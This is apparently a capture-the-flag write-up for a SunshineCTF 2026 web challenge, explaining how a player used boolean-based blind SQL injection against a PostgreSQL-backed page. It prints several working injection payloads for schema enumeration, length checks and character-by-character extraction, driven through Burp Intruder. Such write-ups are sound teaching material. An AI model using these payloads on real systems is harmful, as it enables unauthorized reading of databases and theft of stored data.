



# SunshineCTF 2026 — Planetary Probe Directory

**Player:** Obsidian &nbsp;·&nbsp; **Date:** September 27, 2026

## Overview

|  |  |
| --- | --- |
| Vulnerability | Boolean-based blind SQL injection |
| Database | PostgreSQL |
| Target | `/probe?planet=` |
| Category | web |
| Flag | `sun{bl1nd_psqli_2_rc3_p4Nd0FyZt8k2}` |

The `planet` parameter was injectable, but the application never returned SQL errors or exposed query results directly — every response was reduced to one of two visible states. Solving it meant turning that single bit of signal into a full schema walk and a 36-character value, extracted manually, character by character, through Burp Suite's Intruder.

## Initial discovery

The app didn't return SQL errors or expose query results, but two distinguishable states showed up in the response HTML:

- `is-carrier` — the injected condition evaluated to true
- `is-null` — the injected condition evaluated to false

That was enough to act as a boolean oracle: any yes/no question could be answered by checking which class came back. The one trap was that the literal word "CARRIER" also appeared in static page content, so correctness depended on matching the actual response state rather than doing a naive string search for it.

## Database enumeration

First step was establishing how many tables sat in the current schema:

```sql
MARS' AND (
    SELECT COUNT(*)
    FROM information_schema.tables
    WHERE table_schema = current_schema()
) = 2
-- -
```

With two tables confirmed, I pulled their names out of `information_schema.tables`, ordering the results and walking through them with `LIMIT`/`OFFSET`. Each name was recovered character by character using `SUBSTRING()` and `ASCII()` — the same technique used throughout.

This surfaced two tables: `planets` and `leak`.

`planets` turned out to be a red herring: eight rows, four columns (`id`, `diameter_km`, `name`, `description`), nothing flag-shaped. Rather than keep enumerating data that wasn't going anywhere, I moved on to `leak`.

## Identifying the relevant data

Querying `information_schema.columns` against `leak`:

```sql
MARS' AND (
    SELECT COUNT(*)
    FROM information_schema.columns
    WHERE table_schema = current_schema()
      AND table_name = 'leak'
) = 1
-- -
```

One column, recovered the same way as before: `v`. Checking the row count next —

```sql
MARS' AND (SELECT COUNT(*) FROM leak) = 1 -- -
```

— confirmed a single row, which made `leak.v` the obvious target. Before extracting it, I measured it:

```sql
MARS' AND (
    SELECT LENGTH(v::text)
    FROM leak
    LIMIT 1
) = 36
-- -
```

36 characters. A prefix check confirmed it was flag-shaped before committing to a full extraction:

```sql
MARS' AND EXISTS (
    SELECT 1
    FROM leak
    WHERE v::text ILIKE '%sun{%'
)-- -
```

## Boolean-based extraction

With the target identified, each character was pulled out through the same core expression:

```sql
ASCII(SUBSTRING(
    (SELECT v::text FROM leak LIMIT 1),
    position,
    1
)) = guessed_ascii_value
```

I did this manually in Burp Suite — crafting the injection in Repeater first to confirm the oracle, then running the character guesses through Intruder's payload positions, reading each response back as the `is-carrier` / `is-null` body class rather than hunting for the word "CARRIER" in the page. No scripting; every one of the 36 positions was walked by hand, narrowing the printable ASCII range per position and locking in the character tied to a true response.

That turned a problem with zero direct output into 36 rounds of repeated yes/no checks.

## Verification

After reconstructing the value, I confirmed it with a direct equality check rather than trusting the character-by-character result blind:

```sql
MARS' AND (
    SELECT v::text
    FROM leak
    LIMIT 1
) = 'sun{bl1nd_psqli_2_rc3_p4Nd0FyZt8k2}'-- -
```

The condition came back true, and the challenge accepted the flag:

```text
sun{bl1nd_psqli_2_rc3_p4Nd0FyZt8k2}
```

## Proof of solve

The injections were run manually through Burp Suite and the browser, without a dedicated capture tool, so most of the request-by-request process wasn't screenshotted. The three records below are what was kept:



The injected length-check payload sitting in the URL bar (`MARS' AND (+++SELECT+LENGTH(column_name)...`), with the page rendering a NULL response — the oracle described above, seen live.





The challenge environment was taken offline once the CTF ended, so there's no way to go back and capture the full request-by-request walkthrough after the fact — the above is what exists from the live solve.

## Takeaway

The whole challenge turned on recognizing that one bit of signal — `is-carrier` vs `is-null` — was enough to act as a boolean oracle, even with zero direct query output. From there it was a standard blind-SQLi progression: schema enumeration, table and column discovery, narrowing to a single-row value, then character-level extraction.

The decision that mattered most was walking away from `planets` once it yielded nothing useful instead of digging further into irrelevant data — enumerating the schema surfaced `leak`, and metadata queries plus length checks plus character extraction did the rest. Doing it manually through Burp Intruder, with no scripted automation, made this a genuinely hands-on solve rather than a black-box run of someone else's tool.
